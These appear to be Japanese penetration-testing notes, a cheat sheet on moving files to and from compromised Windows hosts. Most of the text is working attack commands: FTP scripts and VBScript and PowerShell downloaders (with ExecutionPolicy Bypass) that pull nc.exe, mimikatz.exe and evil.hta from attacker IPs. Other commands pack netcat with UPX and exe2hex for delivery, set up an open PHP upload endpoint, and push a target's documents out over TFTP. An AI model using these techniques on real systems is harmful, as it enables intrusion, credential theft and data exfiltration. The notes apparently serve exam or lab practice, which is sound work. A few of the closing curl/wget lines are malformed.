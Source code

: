 # FileTransfer

### FTP(powershellが使えなくてftp有効な時)

#### 実行コマンド

```bash
# kali
/ftphome/nc.exe
sudo systemctl restart pure-ftpd
```

```cmd
# windows パスワード部分を変更すること
echo open 192.168.45.241 21 > ftp.txt
echo USER ftpuser >> ftp.txt
echo <パスワードいつもの> >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

```cmd
ftp -v -n -s:ftp.txt
```



#### 設定方法

kaliへのftpインストール

```
sudo apt update && sudo apt install pure-ftpd
```

スクリプトでユーザ登録
※以下ユーザで登録済み

```
ftpuser
いつもの
```

```bash
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd ftpuser -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

```bash
sudo systemctl status pure-ftpd
sudo systemctl start pure-ftpd
```





### VBScriptを利用したファイル転送

以下簡易wgetを作成する

```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

cscriptを実行する

```
cscript wget.vbs http://192.168.119.161/mimikatz.exe mimikatz.exe
```



### powershell

psファイルを作成する

```cmd
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.119.144/evil.hta" >>wget.ps1
echo $file = "evil.hta" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

実行する

```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

* -ExecutionPolicy Bypass：PowerShellスクリプトの実行を許可 (デフォルトでは制限)。
* -NoLogo -NonInteractive：PowerShell のロゴバナーを非表示にし、PowerShell の対話型プロンプトを抑制する
* NoProfileキーワード：PowerShellがデフォルトのプロファイルをロードしないようにし（これは必要ない）



ワンライナーバージョン

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/index.html', 'new-exploit.exe')
```



##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像

![image-20230105081915662](img/FileTransfers/image-20230105081915662.png)



### nc.exeの配送

nc.exeをコピー

```
locate nc.exe | grep binaries
cp /usr/share/windows-resources/binaries/nc.exe .
ls -lh nc.exe
```

パッカーで圧縮

```
upx -9 nc.exe
ls -lh nc.exe
```

exe2hexでWindowsスクリプトに変換

```
exe2hex -x nc.exe -p nc.cmd
```

nc.cmdをcatし全コピーし、攻撃対象ホストに貼り付け（windows)

ncコマンドを確認する

```
nc -h
```

![image-20230105091227664](img/FileTransfers/image-20230105091227664.png)



### ファイル出力（php+ps)　

Windows7およびWindows Server 2008 R2以降で動作

* kaliでapache2を起動しupload.phpを作成する

  ```
  <?php
  $uploaddir = '/var/www/uploads/';
  
  $uploadfile = $uploaddir . $_FILES['file']['name'];
  
  move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
  ?>
  ```

  ```
  sudo vi /var/www/html/upload.php   
  ```

* uploadsディレクトリを作成する

  ```
  sudo mkdir /var/www/uploads
  ps -ef | grep apache
  sudo chown www-data: /var/www/uploads
  ls -la /var/www/
  ```

* 攻撃対象ホストでpowershell実行する

  AVに検知されるので画像で

  ![image-20230105092640035](img/FileTransfers/image-20230105092640035.png)



### ファイル出力（TFTP)

* kaliでTFTPサーバーを立ち上げる

  ```
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ```

* tftpで出力する

  ```
  tftp -i 10.11.0.4 put important.docx
  ```

  

### ファイル出力（nc)



### ファイル転送（curl)

```
curl -o http://172.31.25.52:8000/nc64.exe
```

```
wget -O http://192.168.119.167/linpeas.sh
```

